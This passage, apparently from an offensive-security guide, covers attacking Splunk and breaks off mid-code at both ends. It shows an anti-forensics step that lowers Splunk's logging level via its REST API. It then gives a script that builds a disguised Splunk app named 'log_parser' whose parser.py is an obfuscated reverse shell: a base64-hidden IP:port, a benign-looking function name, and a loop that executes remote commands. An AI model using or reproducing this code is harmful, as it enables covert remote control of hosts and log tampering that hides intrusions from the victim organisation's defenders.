 ```bash
          -d "index=$index earliest=-1h"
    done
    
    # Modify logging configuration
    curl -s -b cookies.txt -X POST \
      -d "rootLevel=ERROR" \
      "$splunk_url/services/server/logger"
    
    echo "[+] Anti-forensics measures implemented"
}

# splunk_anti_forensics "http://target.com:8000"
```

---

## Defense Evasion and Operational Security

### Stealth Application Development

#### Low-Profile Application Design
```bash
# Create stealth application with minimal detection footprint
create_stealth_app() {
    local app_name="log_parser"
    
    echo "[+] Creating stealth Splunk application"
    
    mkdir -p stealth_app/$app_name/{bin,default}
    
    # Obfuscated reverse shell
    cat > stealth_app/$app_name/bin/parser.py << 'EOF'
#!/usr/bin/env python3
import socket, subprocess, base64, time
import sys, os

# Obfuscated configuration
config = base64.b64decode("MTAuMTAuMTQuMTU6NDQ0Mw==").decode()  # IP:PORT
host, port = config.split(":")

def process_logs():
    # Legitimate-looking function name
    try:
        conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        conn.settimeout(10)
        conn.connect((host, int(port)))
        
        # Send system info
        info = subprocess.check_output("whoami && hostname", shell=True)
        conn.send(b"[LOG_PARSER] " + info)
        
        while True:
            try:
                data = conn.recv(1024)
                if not data or data.decode().strip() == "exit":
                    break
                
                # Execute command
                result = subprocess.check_output(data, shell=True, stderr=subprocess.STDOUT)
                conn.send(result)
                
            except subprocess.CalledProcessError as e:
                conn.send(f"Error: {e}".encode())
```